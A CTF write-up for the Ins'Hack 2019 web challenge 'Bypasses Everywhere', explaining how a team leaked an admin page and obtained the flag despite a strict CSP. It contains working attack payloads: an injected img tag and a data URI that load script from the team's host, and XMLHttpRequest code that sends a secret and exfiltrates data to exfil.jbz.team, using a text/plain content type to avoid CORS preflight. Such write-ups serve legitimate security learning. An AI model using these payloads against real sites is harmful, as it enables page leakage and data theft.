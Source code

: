 ```yaml
---
layout: post
title:  "Ins'Hack 2019 - Bypasses Everywhere"
date:   2019-05-07 13:37
categories: [InsHack2019]
tags: [Web]
author: jbz
---
```


The challenge description was minimal:
```
I’m selling very valuable stuff for a reasonable amount of money (for me 
at least). Go check it out!

https://bypasses-everywhere.ctf.insecurity-insa.fr
```

### TL;DR ###

This writeup is about our uninteded solution of a very cool Web 
challenge by [Hugo DELVAL](https://twitter.com/HugoDelval).
The intended solution was about triggering an XSS and bypass the CSP via 
a JSONP endpoint on www.google.com.
Our solution abused the `data:[<mediatype>][;base64],<data>` URIs to get 
JavaScript execution.
The intended solution can be found 
[here](https://github.com/InsecurityAsso/inshack-2019/blob/master/bypasses-everywhere/writeup.md) 
and 
[here](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere).

### Recon ###

The target website was basically made of 2 pages:
 - `/article` where you can view articles and you have a bunch of XSSes
 - `/admin` where you can send a link to the admin and you have an XSS 
when the link is visited

The various pages were protected with a pretty strict `CSP`:
```
Content-Security-Policy: script-src www.google.com; img-src *; 
default-src 'none'; style-src 'unsafe-inline'
```

### Admin's browser ###

By sending a simple HTTP link to the admin you're able to notice that 
his browser is `HeadlessChrome/73`, meaning we have to deal no only with 
the `CSP`, but only with the `XSS-Auditor`.

```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, 
like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
```

### Leaking admin's page ###

In the admin page there was the following text, just after the url 
`input` field:
```
I'm usually connecting to this page using http://127.0.0.1:8080, so I'm 
pretty sure this page is safe :)
```
So we thought we had a way to leak somehow the content of that page, 
without breaking the `CSP` and triggering the `XSS-Auditor`.

Finally we managed to do it by injection a new `<img>` tag with as 
source our domain, followed by the page's content.

We basically sent as URL to the admin:
`http://127.0.0.1:8080/admin?url=c"><img src='https://exfil.jbz.team/a`

The browser was so nice to close the `src` attribute once he found the 
`'` in the `I'm usualy ...` text and sent us the page's content in the 
request's path, which after some beautifying resulted in:

```
from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()
def _local_access() -> bool:
    if request.referrer is not None and not 
re.match(r"^http://127\.0\.0\.1(:/d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"
def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)
    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this 
beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return
```

### Bypassing ~~everything~~ and getting the ~~FLAG~~ ###

The leaked code is pretty trivial, what is needed to do to get the flag 
is:
 - Sending a `POST` request to `/article` with a specific `secret` and 
the `url` where we will receive the `flag`
 - The requeste must be sent by the `admin` as his IP is `127.0.0.1`
 - If a referrer is set it must be `127.0.0.1[:port]`
 
After some brainstorming we realized that the solution was as easy as 
submitting a [data 
URI](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs) 
to the admin.

We've build a `data` URI which injected some `JavaScript` in a blank 
page and submitted the required request without a referrer and finally 
we received the ~~flag~~.

**Data URI**
```
data:text/html;base64,PHNjcmlwdD5jb25zb2xlLmxvZygxKTwvc2NyaXB0PjxzY3JpcHQgc3JjPSJodHRwOi8vamJ6LnRlYW06ODA4MC9hLmpzIj48L3NjcmlwdD4=
```

**a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "application/json");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

We received no `FLAG` and after some debugging we realized that the 
browser was trying to send a `preflight` request as the `Content-Type` 
was set to `application/json`, which was obviously failing as the server 
was not responding with the required `Allowing-*` headers.

### Last but not least bypass and (finally) FLAG ###

How can we send a `json` request without sending a `json` request?

We went back to the source code and noticed the `data = 
request.get_json(force=True)` line, which brought us to [Flask's 
documentation](http://flask.pocoo.org/docs/1.0/api/#flask.Request.get_json):
```
Parse and return the data as JSON. If the mimetype does not indicate 
JSON (application/json, see is_json()), this returns None unless force 
is true.
```

So we can just set as `Content-Type` anything which does not trigger the 
`preflight` mechanism? Let's try!

**new a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "text/plain");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

And BOOM, we received the `FLAG` via `POST` to 
`https://exfil.jbz.team/`!

`Flag: 
flg=INSA{f330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa}`
